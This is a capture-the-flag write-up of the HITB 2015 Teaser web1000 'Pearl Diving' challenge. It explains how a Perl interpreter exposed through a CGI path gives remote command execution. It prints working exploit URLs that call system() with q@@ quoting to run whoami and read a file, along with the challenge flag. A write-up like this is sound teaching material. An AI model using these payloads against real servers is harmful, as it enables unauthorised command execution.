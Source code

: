 Title: web1000 - Pearl Diving
Author: dsc
Date: 2015-03-23 1:11
Tags: CTF


## Introduction

This is a write-up of the web1000 challenge (Pearl diving) of the HITB 2015 Teaser CTF. Here’s the original description of the challenge:

> Our aquaculture department has been farming sea organisms of various kinds for the past few years now. Recently we’ve started branching out and instead of maintaining just our own aquafarms, we’ve started stealing fish and plants from other people their farms as well! (How naughty of us, eh?) Recently during a deep sea TCP scan we uncovered what we believe is the endpoint for an aquafarm maintenance system ran by TEAM GUMFISH.

> TEAM GUMFISH is well known for their cutting edge technologies when it comes to accumulating vast amounts of oysters. An excessive (and lame) nikto scan pointed out one accessible URI endpoint which can be found here. However, so far we only seem to be getting “500 INTERNAL SERVER ERROR” out of it.

## Initial analysis

We are provided the following link:

    http://52.16.114.54/cgi-bin/perl

This reminds us of CVE-2012-1823 which involved a PHP interpreter being directly accessible through a webserver, an exploit found by the authors of this CTF.

Our suspicions were correct: visiting ‘http://52.16.114.54/cgi-bin/perl?-v’ outputs the Perl version which confirms that we were indeed dealing with a Perl interpreter that we can interact with.

Trying to get something more out of the interpreter other than -v or -h proved difficult. All tough we can probably start with a -e flag to execute commands, we could not use quotes as they were being URL encoded by the webserver. Exploiting this vector seemed tricky.

Thankfully, the ‘sleep’ function does not require any quotes and we can execute the following command to make the webserver sleep for 2 seconds.

    http://52.16.114.54/cgi-bin/perl?-Esleep%202

This however does not get us our flag :-)

## Quotes

Nobody in CED has any good experience writing Perl so we dove into the Perl documentation to find a correct approach for dealing with quotes.

First of all, we’re using -E instead of -e to enable ‘all features’, as some functions are not available with -e.

> -E commandline
> behaves just like -e, except that it implicitly enables all optional features (in the main compilation unit). See feature.

After some headache we finally found a solution for the quote problem.

> In Perl, you can use methods other than quotation marks to "quote" a string. This functionality makes using strings that contain quotation marks much easier sometimes, since those quotation marks no longer need to be escaped. There are three simple methods of doing this with the letter q.

Perl apparently has an option to use a q() notation for quotes. Other delimiters than parenthesis can be used in the q() example, like q@@ so we will use that, as URL encoding might do something to our beloved parenthesis.

## Exploitation

Using these 2 methods we made a test command.

    root@CED~$ perl -E 'print system q@whoami@'
    root
    root@CED~$

This works, so lets try it on the challenge.

    http://52.16.114.54/cgi-bin/perl?-Eprint,system%20q@whoami@

But not quite yet. The server still returns a 500 error.

Pretty quickly we came to the realisation that this was probably due to the fact that even though the Perl process gives output, the webserver wouldn’t have any of it as it violates the HTTP specification.

Looking at a random network capture of a webserver’s HTTP response we can observe that the content ends with a newline. Our content does not end with a newline. Once again we dive into the Perl documentation to see if there are other functions than print that append a newline to the output. Much like Python’s print() VS sys.stdout.write().

We stumble upon ‘say’.

> Perl 5.10 added 'say' which is a substitute for 'print' that automatically adds a newline to the output.

    http://52.16.114.54/cgi-bin/perl?-Esay,system%20q@whoami@

And we are finally presented with some server output. We quickly run a ‘ls’ and see a file called oyster. We cat this to get the flag.

    http://52.16.114.54/cgi-bin/perl?-Esay,system%20q@cat%20oyster@

Returns:

    #!/usr/bin/perl
     
    print "Content-Type: text/html\r\n\r\n";
     
    print "<pre>\n";
    print "                           ___---__---___\n";
    print "                         --              --\n";
    print "                        ~                  ~\n";
    print "                       ~~                  ~~\n";
    print "                      (__       ,--,       __)\n";
    print "                         ====- |#   | -====\n";
    print "   ~~---_____---~~~~--(~~       `--'         )~~-----____-----~\n";
    print "                      \\~~--___        ___--~~/\n";
    print "                       ~~--___---__---___--~~\n";
    print "                              --------\n";
    print "\n\n                       404 OYSTER NOT FOUND\n\n";
 
    # Okay, we lied: HITB{0736354855cdfeecbe3c659523f8cad2} :-)
